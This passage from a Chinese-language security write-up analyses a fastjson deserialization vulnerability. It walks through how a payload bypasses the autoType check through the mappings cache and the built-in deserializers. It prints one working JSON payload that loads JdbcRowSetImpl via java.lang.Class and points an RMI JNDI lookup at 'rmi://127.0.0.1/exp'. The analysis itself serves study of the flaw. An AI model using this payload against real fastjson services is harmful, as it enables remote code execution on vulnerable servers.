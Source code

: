 然后我们先来看**第一种**`poc`。  
我们仔细欣赏下第一种`poc`的`payload`：

```bash
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1/exp","autoCommit":true}}
```

我们会发现，加上`{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}`就会绕过原本的`autoType`，由此我们可以猜测，针对未开启`autoType`的情况，`fastjson`的源代码中应该是有相关方法去针对处理的，并且利用我们的这种方式，正好可以对应上。  
于是我们直接去查看源代码，翻到`checkAutoType`的地方，可以看到，如果没开启`autoType`，就会有以下两种加载方式：  
[![](assets/1706233003-63327be0f5395f2b0c9fe49bee0761fd.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170502-a8bc2d94-ba97-1.jpeg)  
第一种是从`mappings`里面获取，也就是上图中的第`727`行代码，点进去之后可以看到：  
[![](assets/1706233003-f061ec07dcbbf628a0e1e8c3b08b8e64.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170503-a9373912-ba97-1.jpeg)  
如果获取不到就采用第二种方法，也就是第`728`\-`730`行代码，从`deserializers`中获取。  
`deserializers`是什么呢？可以看`fastjson-1.2.25.jar!\com\alibaba\fastjson\parser\ParserConfig.class`的第`172`\-`241`行，里面是内置的一些类和对应的反序列化器。  